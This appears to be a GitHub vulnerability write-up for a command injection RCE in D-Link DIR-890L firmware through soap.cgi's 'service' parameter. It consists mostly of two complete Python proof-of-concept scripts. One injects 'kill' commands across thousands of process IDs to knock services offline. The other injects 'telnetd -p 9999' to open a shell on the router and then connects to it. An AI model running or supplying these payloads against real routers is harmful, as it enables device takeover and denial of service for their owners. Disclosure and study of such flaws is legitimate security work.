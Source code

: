# RCE of DIR-890l

## Version: 
DIR890LA1_FW120b01

## Test Environment: 
Ubunutu 22.02, FirmAE

## Analysis:
Because of loose filter in `soap.cgi` causes this RCE

## Tips:
I don't have an actual firmware, so I used FirmAE. However, it has some bug causing `system()` can't execve most of command. So in my environment this RCE can only execute some commands like `kill`, `sleep`...

## POC:
### In my environment(DDoS)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    print(request)
    print(con.recv(4000))

if __name__=="__main__":
    http_logging()
    i=5000
    while(i>0):
        httpSUB("192.168.0.1", 49152, ';kill {0};'.format(i))
        i=i-1
        if i%1000==0:
            print(i)

```

### Actual firmware(get shell)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

if __name__=="__main__":
    http_logging()
    httpSUB("192.168.0.1", 49152, ';telnetd -p 9999 &;;')
```

## Result:
i just kill `ddns` for an example. We can kill more processes by using POC above.

<img src="./ddos.png" style="width:250px">
